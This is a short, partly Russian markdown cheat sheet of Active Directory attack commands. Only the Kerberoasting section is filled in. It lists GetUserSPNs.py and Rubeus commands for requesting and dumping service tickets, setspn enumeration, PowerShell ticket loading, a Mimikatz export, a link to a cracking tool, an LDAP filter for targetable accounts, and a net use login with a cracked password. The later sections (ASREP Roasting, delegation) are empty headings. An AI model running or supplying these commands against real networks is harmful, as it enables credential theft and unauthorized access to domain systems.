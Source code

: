 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T TestDomain -Q */*  
            - загружаем билеты в память для дальнейних действий.  
            - Add-Type -AssemblyName System.IdentityModel  
            - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
            - Проверяем, что билет загружен в память: klist  
            - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
              - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
            - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
 5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting:  


## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 

